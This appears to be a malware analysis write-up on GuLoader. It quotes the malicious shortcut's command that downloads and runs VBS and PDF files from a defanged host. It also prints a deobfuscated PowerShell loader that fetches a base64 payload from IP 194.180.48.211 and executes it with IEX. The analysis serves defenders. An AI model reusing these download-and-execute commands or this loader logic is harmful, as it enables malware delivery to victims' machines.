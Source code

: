 # GuLoader Analysis

### Dynamic Analysis
https://tria.ge/230310-r1hssafh8w/behavioral2

### Malicious Shortcut Doc065754.lnk executes the following command

```
"C:\WINDOWS\System32\WScript.exe" "\\localhost\c$\Windows\System32\SyncAppvPublishingServer.vbs" n;
Invoke-WebRequest http[:]//0xC2.11808979/sara/Vejlensisk90.vbs -OutFile C:\Windows\Tasks\Tepoler.vbs; 
C:\Windows\Tasks\Tepoler.vbs; 
Invoke-WebRequest http[:]//0xC2.11808979/sara/info.pdf -OutFile C:\Users\Public\info1.pdf; 
C:\Users\Public\info1.pdf
```

### Remote webserver IP

`194.180.48.211`

### Vejlensisk90.vbs executes the following Deobfuscated PS Script which downloads and loads another ps script

```ps
Function StringReplace ([String]$Eddikeb){
	For($Modemets=1; $Modemets -lt $Eddikeb.Length-1; $Modemets+=(1+1)){
		$mdeaftens=$mdeaftens+$Eddikeb.Substring($Modemets, 1);};
	$mdeaftens;
}

$URL='http[:]//194.180.48[.]211/zara/Dedepseud52.toc';
$IEX=iex;
$PSPath = '\syswow64\WindowsPowerShell\v1.0\powershell.exe';
IEX $windirpath=$env:windir;
IEX $PSPath='C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe';
IEX $GetCurrentProcessPath = ((gwmi win32_process -F ProcessId=${PID}).CommandLine) -split '"';
IEX $CleanArrayofPath = $GetCurrentProcessPath[$GetCurrentProcessPath.count-2];
IEX $Model=(Test-Path $PSPath) -And ([IntPtr]::size -eq 8);

if ($Model) {
	.$PSPath $CleanArrayofPath;
} else {
	$BitsTransfer=Start-BitsTransfer -Source $URL -Destination $FileOutPut;
	IEX $FileOutPut=$env:appdata ;
	IEX Import-Module BitsTransfer;
	$windirpath=$windirpath+'\Raao.pal';

	while (-not $Ifpathexists) {
		IEX $Ifpathexists=(Test-Path $FileOutPut);
		IEX $BitsTransfer;
		IEX Start-Sleep 5;
	}
	IEX $FileData = Get-Content $FileOutPut;
	IEX $Base64Decoded = [System.Convert]::FromBase64String($FileData);
	IEX $ByteArray = [System.Text.Encoding]::ASCII.GetString($Base64Decoded);
	IEX $psscript=$ByteArray.substring(188264,19335);
	IEX $psscript;
}
```
